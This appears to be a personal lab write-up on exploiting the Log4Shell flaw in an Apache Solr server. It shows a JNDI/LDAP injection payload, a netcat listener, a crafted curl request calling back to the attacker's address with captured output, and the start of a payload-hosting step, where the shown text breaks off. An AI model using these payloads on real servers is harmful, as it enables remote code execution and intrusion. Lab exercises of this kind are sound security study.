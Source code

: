 # Using Log4j to attack a vulnerable Apache Solar server. [Java 1.8.0_181]


## To start, note that...

### Dashboard seen on admin front page

### Verify that log4j in use for logging via nmap scan (all ports) - note info on dashboard as well\


### Note log directory...
```-Dsolr.log.dir```

### In logs, find an entry point 

INFO entries with repeated endpoint requests -> parameter field

## Parameter will be used as an attack vector, with a payload having syntax as follows

``` ${jndi:ldap://ATTACKERADDRESS} ```

Using JNDI to get external resources, ATTACKERADDRESS will be a nc listener on the kali machine.

```$ nc -lnvp 4444```

## Remote Code Execution - Injection
 - Log4j processes logs by parsing entries, but may EXECUTE code in entry 
 - Anywhere data is logged, is vulnerable to the syntax --- we should have identified an entry point from the logs earlier (we are sure that it will log and be processed)
  - Entry poiunt can also include forms/any source of user supplied data HTTP headers, 

Putting things together, here is an example of a maliciously crafted curl request:

```$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{10.9.1.93:4444\}'```

This payload will be delivered and executed by Log4j during parsing...
```sh
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.1.93:4444\}' 
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
  ```
  
Did the injection work for connnecting back to our machine??

```sh
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444     
listening on [any] 4444 ...
connect to [10.9.1.93] from (UNKNOWN) [10.10.22.239] 50884
0
 `�

```
It worked :D but what can we do with this???

## Exploitation 

We can run a referral server to redirect from LDAP to another location containing our desired payload.

### Need http server to host some files on our machine that contain the good stuff ;)

```python python3 -m http.server```

